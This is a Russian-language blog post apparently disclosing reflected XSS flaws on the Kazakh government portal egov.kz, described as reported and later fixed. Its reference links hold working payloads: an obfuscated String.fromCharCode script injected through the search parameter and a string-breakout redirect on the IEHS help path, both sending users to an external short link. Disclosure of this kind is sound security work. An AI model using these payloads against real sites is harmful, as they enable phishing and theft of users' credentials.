 ```yaml
---
layout: post
title: "Уязвимость на сайте egov.kz (XSS)"
date: '2017-6-8T13:24:14+06:00'
categories: xss security
about: 'about.html'
---
```

Про эти проблемы я сообщил press@nitec.kz более года назад. Многие проблемы они устранили, ~~но не всё~~. Думаю пришло время дисклозить.
<!--more-->

>**XSS** (cross site scripting) или межсайтовый скриптинг - это серьезная уязвимость. Простыми словами, на вашем сайте (без вашего 
разрешения) выполняется чужой код. То есть, кто-то может контролировать что делает или видит пользователь вашего сайта!

Очень важно, чтобы главный портал государственных услуг был без уязвимостей. XSS это еще одна возможность для мошенников производить фишинг атаки на пользователей. Ниже в посте есть видео кражи ЭЦП.

В посте описаны не все найденные уязвимости. Стоит отметить, что egov.kz отвечает на письма и исправляет проблемы. Но следующие XSS обещали исправить еще 31 Марта 2016 года.


+ Reflected XSS через Поиск - ~~не исправлено~~ исправлено 14-06-2017

Обычно XSS на сайтах чаще можно найти через Search.
![image][img0]
 
Egov.kz не исключение. Вот результат такого запроса.
![image][img1]

**Proof of Concept**: [XSS через Поиск]


+ Reflected XSS через IBM Eclipse Help System - ~~не исправлено~~ исправлено 14-06-2017

Похоже, что egov.kz использует старый IBM WebSphere вперемешку с Drupal.
![image][img2]
![image][img3]

Для старого WebSphere есть [старый XSS]. Остается надеяться, что egov.kz устанавливает другие патчи на WebSphere.
![image][img4]

**Proof of Concept**: [XSS через IEHS]


+ XSS на idp.egov.kz - исправлено. 

Здесь параметр redirectURL не был обработан.
![image][img5]

На видео ниже, ЭЦП и пароль пользователя отправляются на localhost. Все работает по HTTPS.

<iframe src="https://player.vimeo.com/video/166616876" width="640" height="480" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>

Все примеры выше выполняется в контексте javascript кода. То есть, XSS аудиторы современных браузеров бессильны. Кстати, не знаю зачем мошенникам пароли, ведь пароль всех ЭЦП **123456** :)

[XSS через Поиск]: http://egov.kz/wps/portal/!ut/p/b1/jY7LCsIwFES_qNxJLq3JMj7SBKVBKGizkSxECn1sSr_f2r3V2Q2cwwxFajItUEBKxXSnOKS5faWpHYfUfXosHjuGVHthEBiAr_VBq2vNJWMBmgUITtgy14xwVCd4lXNlL07iLP_z8SUGv_wbxRXZerACGxOVG_sn9bGz2mfmDbEtbmo!/dl4/d5/L2dBISEvZ0FBIS9nQSEh/pw/Z7_73028B1A003DC0AS22M7DL2003/act/id=0/p=from=0/p=lang=all/p=textSearch=x';document.write(String.fromCharCode(60,115,99,114,105,112,116,62,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,34,104,116,116,112,58,47,47,98,105,116,46,108,121,47,73,113,84,54,122,116,34,60,47,115,99,114,105,112,116,62));'/p=category=all/318769911448/-/
[старый XSS]: http://www.securityfocus.com/bid/54051/info
[XSS через IEHS]: http://egov.kz/wps/iehs/topic/com");}window.location.replace("//bit.ly/IqT6zt");//.htm
[img0]: /assets/images/{{page.slug}}/img0.png
[img1]: /assets/images/{{page.slug}}/img1.png
[img2]: /assets/images/{{page.slug}}/img2.png
[img3]: /assets/images/{{page.slug}}/img3.png
[img4]: /assets/images/{{page.slug}}/img4.png
[img5]: /assets/images/{{page.slug}}/img5.png